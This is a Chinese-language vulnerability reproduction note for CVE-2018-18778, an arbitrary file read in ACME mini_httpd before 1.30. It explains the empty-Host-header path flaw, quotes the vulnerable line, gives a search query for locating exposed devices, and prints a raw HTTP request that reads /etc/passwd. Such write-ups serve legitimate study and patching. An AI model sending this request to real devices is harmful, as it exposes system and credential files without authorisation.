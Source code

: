 # ACME Mini_httpd 任意文件读取漏洞 CVE-2018-18778

## 漏洞描述

漏洞原因是由于没有过滤Http包头的特定字段，导致可以构造访问系统文件的路径，从而导致可访问任意文件，攻击者可以利用该漏洞读取设备的任意文件，这将严重威胁采用Mini_httpd的设备的安全性。

## 漏洞影响

<a-checkbox checked>ACME mini_httpd before 1.30</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="ACME-mini_httpd"</a-checkbox></br>

## 漏洞复现

指纹信息

![img](../../../.vuepress/public/img/1651364999726-9489ab39-a1ab-4a52-b979-c2be1b30f708-20220501090543203.png)

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的HOST/FILE文件。

当`HOST=example.com、FILE=index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。

当`HOST为空、FILE=etc/passwd`的时候，上述语句结果为`/etc/passwd`。

```java
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

发送请求包, 置空 host

```java
GET /etc/passwd HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 0
Referer: http://192.168.0.144:8080/
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
x-requested-with: XMLHttpRequest
```

![img](../../../.vuepress/public/img/1651365228889-3cc62bb4-cb20-49d0-a6f6-c91258efc211-20220501090543427.png)